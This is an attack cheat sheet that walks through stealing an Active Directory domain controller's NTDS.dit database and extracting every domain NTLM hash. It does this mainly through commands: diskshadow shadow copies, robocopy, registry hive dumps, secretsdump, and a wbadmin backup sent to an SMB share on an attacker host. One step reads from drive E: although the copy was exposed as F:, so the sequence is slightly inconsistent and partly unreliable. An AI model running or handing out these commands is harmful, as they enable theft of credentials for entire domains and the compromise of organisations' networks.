 ### AD Attack

Direct access to the Domain Controller's file system allows for the theft of the `NTDS.dit` database, which contains all NTLM hashes for domain users and computers.

#### Using diskshadow.exe

1. Create a shadow copy of the `C` drive:

```cmd
diskshadow.exe
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
begin backup
add volume C: alias cdrive
create
expose %cdrive% F:
end backup
exit
```

2. Copy `NTDS.dit` from the shadow copy:

```cmd
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

Alternatively, use `robocopy` for file copying:

```cmd
robocopy /B F:\Windows\NTDS .\ntds ntds.dit
```

3. Extract `SYSTEM` and `SAM` for hash retrieval:

```cmd
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```

4. Retrieve all hashes from `NTDS.dit`:

```shell-session
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```

#### Using wbadmin.exe

1. Set up NTFS filesystem for SMB server on attacker machine and cache SMB credentials on the target machine.
2. Use `wbadmin.exe` for system backup and `NTDS.dit` extraction:
    ```cmd
    net use X: \\<AttackIP>\sharename /user:smbuser password
    echo "Y" | wbadmin start backup -backuptarget:\\<AttackIP>\sharename -include:c:\windows\ntds
    wbadmin get versions
    echo "Y" | wbadmin start recovery -version:<date-time> -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl
    ```
